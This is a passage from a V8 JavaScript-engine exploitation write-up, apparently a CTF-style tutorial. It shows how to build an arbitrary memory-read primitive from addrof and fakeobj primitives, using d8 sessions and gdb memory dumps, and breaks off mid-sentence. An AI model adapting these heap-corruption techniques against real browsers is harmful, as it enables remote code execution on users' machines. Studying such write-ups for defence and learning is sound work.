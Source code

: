 ## Getting arbitrary read / write

We have the `addrof` and `fakeobj` primitives now. From here, the arbitrary read primitive is easy, but the arbitrary write primitive requires a little bit more work. Let's start with the arbitrary read primitive.

In order to perform arbitrary reads, what we need to do is create a float array with four elements where the 0th index is set to a value of a float array's map. That way, if we place a fake object right on top of where that map is, the 2th index of the float array will be treated as the fake object's `elements` pointer. This can then be used to perform reads at arbitrary addresses. Here is an example:
```
d8> var a = [1.1, 1.2, 1.3, 1.4];
undefined
d8> %DebugPrint(a);
0x18eaf2e4ddb1 <JSArray[4]>
[1.1, 1.2, 1.3, 1.4]

10gx 0x18eaf2e4ddb1-1-0x30
0x18eaf2e4dd80:	0x000036946f4814f9	0x0000000400000000 <- FixedDoubleArray
0x18eaf2e4dd90:	0x3ff199999999999a	0x3ff3333333333333
0x18eaf2e4dda0:	0x3ff4cccccccccccd	0x3ff6666666666666
0x18eaf2e4ddb0:	0x0000265b96342ed9	0x000036946f480c71 <- JSArray
0x18eaf2e4ddc0:	0x000018eaf2e4dd81	0x0000000400000000

elements == 0x000018eaf2e4dd81
index 0 == 0x18eaf2e4dd90 == elements + 0x10 (ignoring the last bit)

Assume we put a fake object at 0x18eaf2e4dd90. 

If we set index 0 to the float array's map, then index 2 (at 0x18eaf2e4dda0)
will be treated as the elements pointer for our fake object.

We can then read fake_object[0], and it will read whatever value is at
elements + 0x10
```

Here is an actual worked example, using our `fakeobj` primitive from before:
```
d8> var a = [1.1, 1.2, 1.3, 1.4];
undefined
d8> var float_arr = [1.1, 1.2, 1.3, 1.4];
undefined
d8> var float_arr_map = float_arr.oob();
undefined
d8> var crafted_arr = [float_arr_map, 1.2, 1.3, 1.4];
undefined
d8> "0x"+addrof(crafted_arr).toString(16);
"0x7be69511d69"

Right now, this is what it looks like in memory, the JSArray elements pointer
points to the FixedDoubleArray:

gef➤  x/10gx 0x7be69511d69-0x30-1
0x7be69511d38:	0x000016d74fa414f9	0x0000000400000000 <- FixedDoubleArray
0x7be69511d48:	0x000031adb41c2ed9	0x3ff3333333333333 <- We want our fake object here
0x7be69511d58:	0x3ff4cccccccccccd	0x3ff6666666666666
0x7be69511d68:	0x000031adb41c2ed9	0x000016d74fa40c71 <- JSArray
0x7be69511d78:	0x000007be69511d39	0x0000000400000000

Right now, if we place a fake object at 0x7be69511d48, we can control the value at
0x7be69511d58 (index 2 of crafted_arr), which would be the fake object's elements pointer. 
This only works because we set the Map to be that of a float array (index 0 of crafted_arr). 
A different object map would not work here as it may not treat the value at 0x7be69511d58 as 
```